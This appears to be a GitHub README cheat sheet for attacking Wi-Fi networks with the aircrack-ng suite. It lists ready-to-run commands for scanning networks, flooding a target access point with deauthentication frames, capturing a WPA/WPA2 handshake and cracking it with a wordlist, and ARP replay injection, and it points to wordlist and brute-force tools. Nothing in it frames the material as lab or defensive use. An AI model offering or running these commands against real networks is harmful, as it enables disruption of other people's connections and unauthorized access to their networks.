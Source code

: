 # Usage of some tools

In this example
- `mon0` is the name of your interface in monitor mode
- `XX:XX:XX:XX:XX:XX` is the bssid of target network
- `-c X` is the channel of target network

## Scan network around

```
airodump-ng mon0
```

![image](https://user-images.githubusercontent.com/90561566/166110658-56663408-8ef9-4681-a5d1-4e7ec4bd3562.png)

## [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

You can try it: https://github.com/lucthienphong1120/xDeauth

```
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
or
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 mon0
```

Ctrl+C to stop deauth

## WPA/WPA2 Handshake capture

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 5 -a 00:14:6C:7E:40:80 mon0
(wait for a few seconds)
aircrack-ng -w /path/to/dictionary out.cap
```

## ARP request

```
airodump-ng -c 6 -w out --bssid 00:13:10:30:24:9C mon0
aireplay-ng -0 10 -a 00:13:10:30:24:9C mon0
aireplay-ng -3 -b 00:13:10:30:24:9C -h 00:09:5B:EB:C5:2B mon0
```

## Brute force tools

Aircrack often uses brute force with some other tools as follows:

- [Cupp](https://github.com/lucthienphong1120/cupp)
- /usr/share/wordlists/rockyou.txt.gz
- [Crunch](https://www.kali.org/tools/crunch)




